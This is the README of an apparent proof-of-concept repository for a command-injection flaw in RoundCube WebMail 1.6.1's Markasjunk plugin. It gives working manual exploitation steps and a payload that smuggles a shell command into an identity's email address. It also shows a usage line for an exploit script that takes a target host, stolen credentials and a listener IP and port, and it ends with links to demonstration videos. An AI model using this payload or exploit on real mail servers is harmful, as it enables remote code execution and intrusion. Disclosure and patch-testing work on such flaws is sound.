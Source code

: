 # RoundCube WebMail 1.6.1 - Markasjunk Vulnerability PoC

## Overview

This repository contains a Proof of Concept (PoC) for the `Markasjunk` plugin vulnerability in RoundCube WebMail version 1.6.1 (Used version for test). The vulnerability allows an attacker to execute arbitrary commands due to improper filtering of user inputs.

## Prerequisites

- Access as User (got credentials!)

## Manual Proof of Concept

1. Log in to the RoundCube WebMail interface.
2. Navigate to `Settings -> Identities`.
3. Modify the email address to include the payload:
    ```
    pwn&touch${IFS}test.txt&@pwn.com
    ```
4. Move any email to the "junk folder".
5. Verify that the command has been executed by checking for the presence of `test.txt` in the server's file system.
   [Reference](https://cyberthint.io/roundcube-markasjunk-command-injection-vulnerability/)

## Exploit use example

This PoC is for educational purposes only. Use it at your own risk. The author is not responsible for any damage caused by the misuse of this information.
```
./exploit vulnerablehost.com pwned@user.pwn PwnPassword! 127.0.0.1 1337
```

![PoC](https://github.com/s4orii/PoC-RoundCube-1.6.1-Plugin-RCE/blob/5a3408b8e192fa4945c9260d61faa0a4ae8a2d47/PoC.mp4))

## PoC
[![](http://markdown-videos-api.jorgenkh.no/youtube/EmNSJb26hMA)](https://youtu.be/EmNSJb26hMA)
